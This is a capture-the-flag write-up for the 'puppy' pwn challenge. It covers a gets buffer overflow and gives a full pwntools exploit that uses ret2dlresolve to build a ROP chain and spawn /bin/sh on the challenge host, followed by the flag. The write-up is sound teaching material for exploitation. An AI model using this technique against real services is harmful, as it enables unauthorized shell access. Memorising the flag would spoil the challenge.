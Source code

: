 # puppy

## Challenge

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Decompilation

```c
ulong main(void) {
    ulong s;
    
    sym.imp.gets(&s);
    return 0;
}
```

We have a very small binary with an unsafe call to `gets`.
This gives us a buffer overflow, but we have no functions to get leaks or spawn a shell.

## Solution

We can spawn a shell using ret2dlresolve by creating a fake struct in the data section of the binary.

Pwntools will generate the fake structs and ropchain for us.
All we have to do is use `gets` to read the payload into the given address, then call the ret2dlresolve gadget.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 31819 puppy
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('puppy')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31819)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh"])

rop = ROP(exe)
rop.raw(rop.ret)
rop.gets(dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

io.sendline(flat({0x18: rop.chain()}))

io.sendline(dlresolve.payload)

io.interactive()
```

## Flag

```
hope{nom_nom_tasty_4dfe9196781da076}
```
